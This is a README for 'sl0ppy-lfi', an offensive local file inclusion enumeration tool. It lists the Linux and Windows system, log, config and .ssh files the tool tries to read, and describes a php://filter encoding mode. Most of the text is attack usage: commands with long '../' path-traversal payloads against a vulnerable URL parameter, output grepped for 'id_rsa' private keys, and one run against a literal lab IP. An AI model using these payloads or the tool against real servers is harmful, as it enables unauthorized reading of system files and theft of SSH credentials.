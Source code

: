 # sl0ppy-lfi
A small lfi enum tool, i upgraded the original source a bits here and there.  

# Added searches
* linux local files 
* linux log files 
* Linux proc files
* linux apache files
* linux .ssh files
* linux other files 

* windows local files
* windows log files
* windows config files
* windows other stuff    
* and alot more 

# !Added php://filther encoding! 

# install
* make all files executable with this command
* chmod +x install && ./install

# Usage 
* sl0ppy-lfi  
* sl0ppy-lfi-fw 


## {!} change the static set user and hash out the read -p "Please Enter Systems Username: " on all 4 blocks {!}
* Or use the pre-default implemented(read -p), and submit system user when asked for it.

# Usage sl0ppy-lfi  (old-original-file soon to be fully replaced by sl0ppy-lfi-fw) 

# Enum all sl0ppy-lfi
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../` 


# Enum specific stuff like only libc
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= | grep "libc"`
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= | grep "id_rsa"` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../ | grep "libc"` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../ | grep "id_rsa"`

# Output Enum 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= > output && cat output`  

# Usage sl0ppy-ProcessInfo
`./sl0ppy-ProcessInfo http://server.vulnerable.com/download.php?file=` 

# Usage sl0ppy-filter-enc-lfi
./sl0ppy-filter-enc-lfi http://10.10.11.154/index.php > sl0ppy-enc.txt || cat /home/x0/sl0ppy-lfi/sl0ppy-enc.txt

# Usage sl0ppy-lfi-fw (sl0ppy-lfi-framework)

# Usage 
* ./sl0ppy-lfi-fw 
* Choice 1 for windows based lfi file checks
* Choise 2 for linux based lfi file checks
* Cboise 3 for linux & windows lfi file checks
* choise 4 for PHP://filther encoding.. 
* Enter the lfi url when it ask for it like this.. http://server.vulnerable.com/index.php?page=` 
* Else as http://server.vulnerable.com/index.php?page=../../../../../../../../../../
* Or any other lfi param or pages... 

# Examples sl0ppy-lfi-fw

# usage Windows-lfi 
* ./sl0ppy-lfi-fw
* option 1
* enter url when it ask for it like this http://server.vulnerable.com/index.php?page=`
* or any other page, or lfi param

# usage Windows-lfi 
* ./sl0ppy-lfi-fw
* option 2
* enter url when it ask for it like this http://server.vulnerable.com/index.php?page=`
* or any other page, or lfi param

# usage Windows-lfi 
* ./sl0ppy-lfi-fw
* option 3
* enter url when it ask for it like this http://server.vulnerable.com/index.php?page=`
* or any other page, or lfi param

# !(sum issues in fw, working on fixing it...)
# Usage php://Filther-encoding 
* ./sl0ppy-lfi-fw 
* * option 4 
* enter url when it ask for it like this http://server.vulnerable.com/index.php
